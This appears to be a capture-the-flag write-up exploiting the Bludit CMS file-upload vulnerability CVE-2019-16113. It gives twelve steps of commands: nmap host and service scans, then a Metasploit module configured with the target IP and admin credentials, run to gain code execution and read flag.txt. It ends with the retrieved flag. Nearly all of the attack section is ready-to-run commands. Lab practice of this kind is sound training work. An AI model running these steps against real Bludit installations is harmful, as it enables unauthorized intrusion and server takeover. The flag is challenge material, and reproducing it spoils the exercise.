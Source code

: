 # Vulnerability Exploitation Report: CVE-2019-16113

## Vulnerability Overview
**CVE ID**: CVE-2019-16113  
**CVSS Score**: 8.8 (High)  
**Description**: A remote code execution (RCE) vulnerability in Bludit, a lightweight CMS, allows attackers to upload a malicious .jpg file containing PHP code. This flaw enables unauthenticated or authenticated attackers to execute arbitrary code on the server by bypassing file upload restrictions.

## Objective
Exploit the CVE-2019-16113 vulnerability on a target Bludit instance to gain unauthorized access and retrieve the `/var/www/html/flag.txt` file as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.8
- **Target Port**: 80 (HTTP)
- **Attack Machine IP**: 192.168.0.5
- **Credentials**: Username: `admin`, Password: `password`
- **Objective**: Retrieve the contents of `/var/www/html/flag.txt`

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.8) to confirm the presence of Bludit.

```
nmap -sV 192.168.5.8
```

### Step 3: Verify Bludit Accessibility
Confirm the Bludit instance is accessible by sending an HTTP request to port 80.

```
curl 192.168.5.8:80
```

### Step 4: Launch Metasploit
Start the Metasploit Framework to access exploit modules.

```
msfconsole
```

### Step 5: Search for Bludit Exploit
Search Metasploit for modules related to Bludit vulnerabilities.

```
search bludit
```

### Step 6: Select Bludit Image Upload Exploit
Choose the Metasploit module for the Bludit image upload RCE vulnerability.

```
use exploit/linux/http/bludit_upload_images_exec
```

### Step 7: Review Module Details
Display information about the selected module to understand its options and requirements.

```
info
```

### Step 8: Configure the Target Host
Set the target host to the Bludit instance’s IP address.

```
set RHOSTS 192.168.5.8
```

### Step 9: Configure Bludit Username
Set the Bludit admin username for authentication.

```
set BLUDITUSER admin
```

### Step 10: Configure Bludit Password
Set the Bludit admin password for authentication.

```
set BLUDITPASS password
```

### Step 11: Execute the Exploit
Run the exploit to upload a malicious .jpg file containing PHP code and achieve RCE.

```
exploit
```

### Step 12: Retrieve the Flag
Read the contents of the `flag.txt` file located in `/var/www/html`.

```
cat /var/www/html/flag.txt
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: p2woSxluy2QdzrXw